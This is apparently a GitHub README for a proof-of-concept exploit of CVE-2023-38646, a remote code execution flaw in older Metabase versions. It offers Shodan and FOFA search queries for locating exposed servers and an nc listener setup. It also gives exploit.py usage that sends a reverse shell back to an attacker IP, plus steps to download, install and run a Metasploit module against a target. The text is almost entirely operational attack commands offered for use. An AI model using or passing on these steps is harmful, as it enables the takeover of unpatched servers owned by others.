 # CVE-2023-38646
![](https://img.shields.io/static/v1?label=Product&message=Metabase&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Open%20Source%20before%200.46.6.1%20and%20Enterprise%20before%201.46.6.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
product:"Metabase"
```
- FOFA dork:
```
app="Metabase"
```
## Install
```
pip install requests
```

## Usage
```
nc -nvlp 4444
```

```
python3 exploit.py --rhost url_remote_host --lhost attacker_ip --lport 4444
```

## Install Metasploit
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Metabase/metabase_setup_token_rce.rb
```
```
cp metabase_setup_token_rce.rb /usr/share/metasploit-framework/modules/exploits/linux/http/
```

## Usage
```
msfdb reinit; msfconsole -q
```
```
use exploit/linux/http/metabase_setup_token_rce.rb
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
